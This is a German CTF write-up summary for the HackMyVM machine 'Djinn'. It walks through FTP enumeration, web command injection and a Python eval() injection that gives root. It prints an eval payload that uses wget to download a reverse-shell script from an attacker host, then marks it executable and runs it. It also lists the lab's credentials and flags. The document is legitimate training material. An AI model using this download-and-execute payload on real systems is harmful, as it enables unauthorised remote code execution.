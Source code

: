 # Djinn - HackMyVM (Easy)

![Djinn.png](Djinn.png)

## Übersicht

*   **VM:** Djinn
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Djinn)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 05. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Djinn_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser "Easy"-Challenge war es, Root-Zugriff auf der Maschine "Djinn" zu erlangen. Die Enumeration deckte einen FTP-Server mit anonymem Zugriff auf, von dem drei Textdateien heruntergeladen wurden. Eine davon (`creds.txt`) enthielt die Zugangsdaten `nitu:81299`. Eine andere Datei (`game.txt`) verwies auf ein Spiel auf Port 1337. Der Port 7331 wurde später ebenfalls untersucht. Der primäre Angriffsvektor war eine Python Code Injection Schwachstelle (via `eval()`) im Spiel auf Port 1337. Durch Injektion eines Payloads, der `wget` zum Herunterladen eines Reverse-Shell-Skripts und dessen anschließende Ausführung nutzte, wurde eine Root-Shell erlangt. Der initiale Zugriff über eine Command Injection in `/genie` (Port 7331) als `www-data` war ein alternativer, aber nicht der effizienteste Weg.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `lftp`
*   `gobuster`
*   `nc` (netcat)
*   `python3` (für Exploit, http.server, pty)
*   `base64`
*   `wget` (auf Zielsystem via Exploit)
*   Standard Linux-Befehle (`vi`, `cat`, `bash`, `which`, `export`, `ls`, `find`, `chmod`, `id`, `cd`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Djinn" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Information Gathering (FTP & Port 1337):**
    *   IP-Findung mittels `arp-scan` (Ziel: `192.168.2.118`).
    *   `nmap`-Scan identifizierte FTP (21/tcp, vsftpd 3.0.3, anonymer Login erlaubt), SSH (22/tcp, filtered) und einen unbekannten Dienst auf Port 1337/tcp.
    *   Über anonymen FTP-Zugriff wurden drei Dateien heruntergeladen:
        *   `message.txt`: Erwähnte `@nitish81299`.
        *   `game.txt`: Hinweis auf ein Spiel auf Port 1337.
        *   `creds.txt`: Enthielt die Zugangsdaten `nitu:81299`.
    *   Eine Verbindung zu Port 1337 (`nc 192.168.2.118 1337`) zeigte ein mathematisches Spiel, das 1000 richtige Antworten verlangte.

2.  **Web Enumeration (Port 7331) & Alternativer Initial Access (als `www-data`):**
    *   *(Die Entdeckung von Port 7331 ist im Log nicht klar, wird aber untersucht.)*
    *   `gobuster` auf Port 7331 fand die Endpunkte `/wish` und `/genie`.
    *   Eine Command Injection Schwachstelle wurde (vermutlich im Parameter `name` von `/genie`) ausgenutzt, um eine Reverse Shell als `www-data` zu erhalten. (Dieser Weg war parallel zum direkten Root-Exploit.)

3.  **Privilege Escalation (direkt zu Root via Python Eval Injection auf Port 1337):**
    *   Das Spiel auf Port 1337 wurde auf Code Injection getestet.
    *   Durch Eingabe von `eval('__import__("os").system("id")')` als Antwort im Spiel wurde bestätigt, dass der Dienst als `root` läuft und für Python `eval()`-Injection anfällig ist.
    *   Ein Bash-Reverse-Shell-Skript (`execute.sh`) wurde auf dem Angreifer-System erstellt.
    *   Ein Python-HTTP-Server wurde auf dem Angreifer-System gestartet, um `execute.sh` bereitzustellen.
    *   Ein Netcat-Listener wurde auf dem Angreifer-System gestartet.
    *   Folgender Payload wurde in das Spiel auf Port 1337 injiziert (via `eval()`): `__import__("os").system("wget http://[Angreifer-IP]:[HTTP-Port]/execute.sh -O /tmp/execute.sh && chmod +x /tmp/execute.sh && bash /tmp/execute.sh")`.
    *   Dies lud das Skript herunter, machte es ausführbar und führte es aus, was eine Reverse Shell als `root` zum Listener des Angreifers etablierte.

4.  **Flags:**
    *   Als `root` wurden die User-Flag (`/home/nitish/user.txt`) und die Root-Flag (`/root/root.txt`) gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Anonymer FTP-Zugriff mit sensiblen Dateien:** Zugangsdaten (`nitu:81299`) wurden über anonymes FTP preisgegeben.
*   **Python `eval()` Injection:** Ein Dienst auf Port 1337 verwendete `eval()` unsicher zur Verarbeitung von Benutzereingaben, was zur RCE als `root` führte.
*   **Command Injection (Web):** Eine Schwachstelle im `/genie`-Endpunkt auf Port 7331 ermöglichte RCE als `www-data` (alternativer Pfad).
*   **Information Disclosure:** Hinweise in Textdateien auf FTP und die Natur des Dienstes auf Port 1337.
*   **SUID-Binary `/usr/bin/genie`:** Ein SUID-Binary, das `sam` gehört und von `nitish` ausgeführt werden könnte, wurde identifiziert, aber nicht im erfolgreichen Angriffspfad verwendet.

## Flags

*   **User Flag (`/home/nitish/user.txt`):** `HMV{WW91IGZvdW5kIHRoZSBmaXJzdCBzdGVw}`
*   **Root Flag (`/root/root.txt`):** `HMV{eWVzIHlvdSBhcmUgY29vbA}`

## Tags

`HackMyVM`, `Djinn`, `Easy`, `FTP`, `Anonymous Access`, `Credentials Disclosure`, `Python`, `eval Injection`, `RCE`, `Command Injection`, `Web`, `Privilege Escalation`, `Linux`
